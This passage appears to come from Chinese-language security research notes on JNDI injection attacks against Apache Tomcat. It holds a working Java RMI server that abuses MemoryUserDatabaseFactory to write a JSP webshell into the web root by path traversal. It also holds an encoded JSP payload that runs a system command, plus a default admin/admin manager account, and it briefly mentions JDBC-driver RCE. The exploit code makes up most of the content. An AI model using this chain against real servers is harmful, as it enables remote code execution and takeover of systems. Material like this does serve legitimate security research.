     <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>

    <user username="admin" password="admin" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script"/>
    </tomcat-users>
    ```

=== "Webshell"

    ```java title="RMIServer"
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import org.apache.naming.ResourceRef;

    import javax.naming.StringRefAddr;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    public class UserDataRCE_Server {
        public static void main(String[] args) throws Exception{

            Registry registry = LocateRegistry.createRegistry(1099);

            // ===============================写入webshell文件================================================
            ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                    true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
            ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../webapps/ROOT/test.jsp"));
            ref.add(new StringRefAddr("readonly", "false"));

            ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
            registry.bind("writeFile", referenceWrapper);
        }
    }
    ```

    ```xml title="test.jsp"
    <?xml version="1.0" encoding="UTF-8"?>
    <tomcat-users xmlns="http://tomcat.apache.org/xml"
                xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
                version="1.0">
    <role rolename="&#x3c;%Runtime.getRuntime().exec(&#x22;calc&#x22;); %&#x3e;"/>
    </tomcat-users>
    ```

###  JDBC RCE
ObjectFactory 的实现类里有好几个类都是用来实例化数据源的，如果能够触发数据库连接，那就可以用 jdbc 来 RCE。参考[《Make JDBC Attacks Brilliant Again》](https://conference.hitb.org/hitbsecconf2021sin/sessions/make-jdbc-attacks-brilliant-again/){target=_blank}根据classpath下有哪些可用的jdbc驱动构造出对应的 payload。

[Todo](/todo)
